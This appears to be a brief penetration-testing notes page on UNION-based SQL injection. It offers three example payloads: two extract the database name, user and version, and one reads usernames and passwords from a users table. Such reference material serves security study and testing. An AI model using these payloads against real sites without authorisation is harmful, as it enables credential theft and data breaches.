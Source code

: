 # UNION Based SQL Injection





## Recap

UNION clauses allow for an additional SQL statement. It's always worth testing for this type of injection.



### Examples

```sql
%' UNION SELECT database(), user(), @@version, null, null -- //
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>



```sql
' UNION SELECT null, null, database(), user(), @@version  -- //
```

```sql
' UNION SELECT null, username, password, description, null FROM users -- //
```

> \
>
